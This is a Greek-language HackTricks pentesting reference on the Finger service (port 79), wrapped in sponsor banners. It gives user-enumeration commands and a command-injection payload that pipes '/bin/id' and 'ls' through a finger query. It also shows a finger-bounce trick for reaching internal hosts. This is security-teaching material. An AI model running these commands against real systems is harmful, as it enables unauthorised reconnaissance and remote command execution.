 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Άμεσα διαθέσιμη ρύθμιση για αξιολόγηση ευπαθειών & δοκιμές διείσδυσης**. Εκτελέστε μια πλήρη δοκιμή από οπουδήποτε με 20+ εργαλεία & δυνατότητες που κυμαίνονται από αναγνώριση έως αναφορά. Δεν αντικαθιστούμε τους pentesters - αναπτύσσουμε προσαρμοσμένα εργαλεία, μονάδες ανίχνευσης & εκμετάλλευσης για να τους δώσουμε πίσω λίγο χρόνο για να εμβαθύνουν, να ανοίξουν κέλυφος και να διασκεδάσουν.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Βασικές Πληροφορίες**

Το **Finger** πρόγραμμα/υπηρεσία χρησιμοποιείται για την ανάκτηση λεπτομερειών σχετικά με τους χρήστες υπολογιστών. Συνήθως, οι πληροφορίες που παρέχονται περιλαμβάνουν το **όνομα σύνδεσης του χρήστη, το πλήρες όνομα** και, σε ορισμένες περιπτώσεις, επιπλέον λεπτομέρειες. Αυτές οι επιπλέον λεπτομέρειες θα μπορούσαν να περιλαμβάνουν την τοποθεσία του γραφείου και τον αριθμό τηλεφώνου (αν είναι διαθέσιμος), την ώρα που ο χρήστης συνδέθηκε, την περίοδο αδράνειας (idle time), την τελευταία φορά που διαβάστηκε το email από τον χρήστη και το περιεχόμενο των σχεδίων και αρχείων έργου του χρήστη.

**Προεπιλεγμένη θύρα:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Καταμέτρηση**

### **Λήψη Πανό/Βασική σύνδεση**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Καταμέτρηση χρηστών**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Εναλλακτικά, μπορείτε να χρησιμοποιήσετε το **finger-user-enum** από τον [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), μερικά παραδείγματα:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap εκτελεί ένα σενάριο για να χρησιμοποιήσει τα προεπιλεγμένα σενάρια**

### Metasploit χρησιμοποιεί περισσότερα κόλπα από το Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## Εκτέλεση εντολών
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Χρησιμοποιήστε ένα σύστημα ως δρομολογητή finger](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Άμεσα διαθέσιμη ρύθμιση για αξιολόγηση ευπαθειών & δοκιμές διείσδυσης**. Εκτελέστε μια πλήρη δοκιμή από οπουδήποτε με 20+ εργαλεία & δυνατότητες που κυμαίνονται από αναγνώριση έως αναφορά. Δεν αντικαθιστούμε τους pentesters - αναπτύσσουμε προσαρμοσμένα εργαλεία, μονάδες ανίχνευσης & εκμετάλλευσης για να τους δώσουμε πίσω λίγο χρόνο για να εμβαθύνουν, να ανοίξουν κέλυφα και να διασκεδάσουν.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
